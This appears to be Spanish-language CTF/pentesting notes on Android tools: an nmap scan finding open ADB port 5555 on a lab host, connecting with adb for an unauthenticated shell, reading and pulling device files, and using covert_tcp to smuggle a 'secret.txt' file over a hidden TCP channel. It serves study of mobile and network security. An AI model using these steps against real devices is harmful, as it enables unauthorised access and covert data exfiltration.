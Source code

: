 # TOOLS MOVIL ANDROID
## ADB (Android Debug Bridge)
es una herramienta de línea de comandos incluida en el kit de desarrollo de software de Android (SDK) que se utiliza principalmente para el desarrollo y la depuración de aplicaciones de Android. ADB proporciona una interfaz de comunicación entre un dispositivo Android y una computadora, lo que permite a los desarrolladores interactuar con dispositivos Android desde la línea de comandos de una computadora.
### Instalar
`sudo apt-get install android-tools-adb
`
### Escaneos Nmap 
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF]
└─# nmap -p- --open -sS --min-rate 4000 -vvvv -n -Pn 192.168.200.161 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 23:01 -05
Initiating ARP Ping Scan at 23:01
Scanning 192.168.200.161 [1 port]
Completed ARP Ping Scan at 23:01, 0.16s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:01
Scanning 192.168.200.161 [65535 ports]
Discovered open port 5555/tcp on 192.168.200.161
Completed SYN Stealth Scan at 23:02, 67.13s elapsed (65535 total ports)
Nmap scan report for 192.168.200.161
Host is up, received arp-response (0.11s latency).
Scanned at 2023-02-22 23:01:42 -05 for 67s
Not shown: 40467 filtered tcp ports (no-response), 25067 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
5555/tcp open  freeciv syn-ack ttl 64
MAC Address: 00:0C:29:40:6D:AC (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 67.82 seconds
           Raw packets sent: 165329 (7.274MB) | Rcvd: 25071 (1.003MB)
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```                                                                     
Se puede verificar que el puerto `5555` esta abierto, y para conectarnos utilizaremos la herramienta `adb`
### adb connect ip:port
El comando adb connect ip:port se utiliza para conectarse a un dispositivo Android a través de una red TCP/IP en lugar de una conexión USB. Este comando permite que un dispositivo Android y una computadora se comuniquen entre sí a través de una red inalámbrica en lugar de una conexión por cable USB.
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                                     
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb connect 192.168.200.161:5555 
connected to 192.168.200.161:5555
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
### adb devices
`adb devices`.- Si el dispositivo está conectado y configurado correctamente, deberías ver una lista de dispositivos conectados en la salida del comando. Una vez que estés conectado al dispositivo Android, puedes utilizar los comandos de ADB para realizar tareas de pentesting, como la recopilación de información, la ejecución de comandos remotos en el dispositivo y la identificación de vulnerabilidades.
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                            
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb devices                     
List of devices attached
192.168.200.161:5555    device
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
### adb shell
El comando adb shell se utiliza para abrir una terminal de shell en un dispositivo Android conectado a través de ADB. Una vez que se ejecuta este comando, se establece una sesión de shell en el dispositivo Android y se puede interactuar con el sistema operativo Android a través de comandos de shell.
```ruby
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb shell  
x86_64:/ $ ls
acct       d                    init                   init.usb.rc         oem                     proc     sys                       vendor_hwservice_contexts 
bin        data                 init.android_x86_64.rc init.zygote32.rc    plat_file_contexts      product  system                    vendor_property_contexts  
bugreports default.prop         init.environ.rc        init.zygote64_32.rc plat_hwservice_contexts sbin     ueventd.android_x86_64.rc vendor_seapp_contexts     
cache      dev                  init.rc                lib                 plat_property_contexts  sdcard   ueventd.rc                vendor_service_contexts   
charger    etc                  init.superuser.rc      mnt                 plat_seapp_contexts     sepolicy vendor                    vndservice_contexts       
config     fstab.android_x86_64 init.usb.configfs.rc   odm                 plat_service_contexts   storage  vendor_file_contexts      
x86_64:/ $ cd sdcard
x86_64:/sdcard $ ls
Alarms Android DCIM Download Movies Music Notifications Pictures Podcasts Ringtones 
x86_64:/sdcard $
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Algunos ejemplos de comandos que se pueden ejecutar dentro de la sesión de shell de ADB incluyen:

> - **ls:** lista los archivos y directorios en el directorio actual.
> - **cd:** cambia el directorio actual.
> - **cat:** muestra el contenido de un archivo.
> - **pm:** gestiona paquetes de aplicaciones en el dispositivo, como la instalación o desinstalación de aplicaciones.
> - **settings:** modifica la configuración del sistema en el dispositivo, como la configuración de Wi-Fi, la configuración de pantalla, etc.
#### Ejemplo
Este es un ejemplo de como listar información.
`cat Tradeinfo`


### Descargar archivo usando ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

### Herramienta covert_tcp
Covert TCP
Covert
Covert_tcp source code Live Demo Covert TCP Live Demo-Youtube

### Compilar el codigo   
cc -o covert_tcp covert_tcp.c
  
### Equipo recepto (192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
### Equipo Emisor (192.168.29.123) 
### Crear un archivo de mensajes que deben transferirse Ej:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

